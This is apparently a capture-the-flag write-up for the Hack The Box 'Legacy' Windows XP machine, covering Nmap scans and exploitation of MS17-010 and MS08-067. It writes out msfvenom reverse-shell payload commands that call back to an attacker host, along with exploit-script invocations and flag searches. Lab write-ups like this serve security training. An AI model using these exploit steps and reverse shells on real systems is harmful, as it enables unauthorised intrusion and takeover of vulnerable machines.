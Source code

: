 # Legacy

<figure><img src="../../.gitbook/assets/image (252).png" alt=""><figcaption><p>Fig 1. Nmap full port scan</p></figcaption></figure>

Running the full port scan on the target system, ports 135, 139 and 445 were open.&#x20;

<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption><p>Fig 2. Nmap Aggressive scan</p></figcaption></figure>

Next, I ran an aggressive Nmap scan using the `-A` flag. From the OS guesses, it is most likely running Microsoft Windows XP SP3.

<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption><p>Fig 3. Nmap vuln scanning</p></figcaption></figure>

Using the arguments `--script vuln`, I found the target to be vulnerable to `MS08-067` and `MS17-010`.&#x20;

### MS17-010 (Eternal Blue)

1. Clone the repository containing the exploit for MS17-010 using the command `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe > shell.exe
    ```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption><p>Fig 4. Generate shell.exe</p></figcaption></figure>

3. Edit the following section inside the `zzz_exploit.py` file.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption><p>Fig 5. Before editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption><p>Fig 6. After editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

4. Setup Netcat listener.

<figure><img src="../../.gitbook/assets/rev shell.png" alt=""><figcaption><p>Fig 7. Setup a Netcat listener</p></figcaption></figure>

4. Run the script using the command `python2.7 zzz_exploit.py 10.10.10.4`

<figure><img src="../../.gitbook/assets/image (257).png" alt=""><figcaption><p>Fig 8. Running exploit.py file</p></figcaption></figure>

5. &#x20;A reverse shell is obtained on the Netcat listener.

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption><p>Fig 9. Obtained a reverse shell </p></figcaption></figure>

6. To find the locations of the `user.txt` and the `root.txt` files, use the following commands.

```shell
cd \
dir /s user.txt
dir /s root.txt
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption><p>Fig 10. Obtaining r the flags</p></figcaption></figure>

### MS08-067

1. Clone the exploit repository using the command `git clone https://github.com/andyacer/ms08_067.git`.&#x20;
2. Use the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows` to generate a reverse shell shellcode.

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption><p>Fig 11. Generating reverse shell shellcode</p></figcaption></figure>

3. Running the command `python2.7 ms08_067_2018.py` shows the OS number for Windows XP SP3 English (NX) as 6.

<figure><img src="../../.gitbook/assets/image (287).png" alt=""><figcaption><p>Fig 12. Help page for the script</p></figcaption></figure>

4. Running the command `python2.7 ms08_067_2018.py 10.10.10.4 6 445` , I managed to obtain a reverse shell with SYSTEM privileges.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Fig 13. Running the exploit script</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Fig 14. Obtained reverse shell</p></figcaption></figure>

